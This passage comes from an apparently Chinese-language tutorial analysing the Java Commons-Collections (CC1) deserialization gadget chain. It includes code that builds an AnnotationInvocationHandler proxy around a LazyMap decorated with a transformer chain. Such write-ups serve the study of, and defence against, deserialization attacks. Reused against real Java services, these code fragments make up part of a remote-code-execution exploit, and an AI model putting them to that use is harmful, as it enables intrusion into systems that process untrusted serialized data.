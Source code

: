 ![image-20220120214250719](images/2.png)

`this.memberValues`是可控的,只要将其包装成动态代理的处理器就可以直接触发invoke方法了

这部分代码如下

```
Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);

InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class,outmap);
Map mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Retention.class,mapproxy);
```

然后触发invoke方法

在invoke方法中的Switch会走default分支

![image-20220120214627688](images/3.png)

执行`Object var6 = this.memberValues.get(var4);`

因为`this.memberValues`的值是`mapproxy`,而且mapproxy被代理对象是Map接口,LazyMap实现了Map接口,其实看下面代码

```
Map innermap = new HashMap();
Map outmap = LazyMap.decorate(innermap,chain);
```
